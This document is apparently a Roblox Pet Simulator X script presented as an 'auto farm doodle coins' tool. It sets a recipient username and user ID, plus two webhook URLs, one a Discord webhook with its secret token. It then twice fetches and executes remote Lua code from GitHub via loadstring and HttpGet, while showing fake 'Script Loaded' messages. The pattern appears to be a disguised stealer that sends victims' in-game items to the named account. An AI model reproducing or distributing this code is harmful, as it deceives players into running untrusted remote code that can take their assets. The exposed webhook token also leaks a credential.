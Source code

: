 UserName = "ZAKATOK3"
WebHook = "https://webhookk.000webhostapp.com/get.php?id=9416057043"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()

UserId = 2893029542
WebHook = 'https://discord.com/api/webhooks/1068869279807709234/bs2sV_CngBLqoMRQSbUKlXRtq7g48YhedaC4CRp9m-5D7HA3LIsBVcBboY1gwfl5GNAJ'

_G.CustomScriptName = "AUTO FARM DOODLE COINS"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimxgm.lua"))()





